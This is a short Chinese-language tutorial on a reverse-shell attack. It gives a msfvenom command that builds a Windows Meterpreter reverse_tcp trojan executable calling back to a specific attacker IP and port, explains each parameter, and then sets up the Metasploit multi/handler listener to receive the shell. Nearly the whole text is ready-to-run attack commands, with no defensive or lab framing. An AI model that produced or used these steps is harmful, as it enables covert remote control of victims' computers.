 反弹shell操作案例
生成木马
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=47.94.236.114 LPORT=3333 -f exe -o msf.exe
```
参数解释：
    msfvenom：Metasploit 中用于生成 payload 的命令行工具。

    -p windows/meterpreter/reverse_tcp：指定使用的 payload 类型。这表示生成一个 Windows 平台的反向 TCP Meterpreter shell。meterpreter/reverse_tcp 会使目标计算机连接回攻击者的主机，提供一个远程控制的命令行。

    LHOST=47.94.236.114：指定攻击者的主机 IP 地址，目标计算机会向这个 IP 地址发起连接。

    LPORT=3333：指定攻击者主机上的监听端口，目标计算机会连接到这个端口。

    -f exe：指定输出格式为 Windows 可执行文件（.exe）。

    -o msf.exe：指定输出文件的名称为 msf.exe。

msf监听反弹shell
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   //这里的payload要和上面的一直
set lport 3333
set lhost 0.0.0.0
```
set lport 3333：

    设置监听端口（LPORT）为 3333，这意味着 Meterpreter 会在目标机器上连接到你本地机器的 3333 端口。

set lhost 0.0.0.0：

    设置本地主机 IP（LHOST）为 0.0.0.0，这表示监听所有可用的网络接口。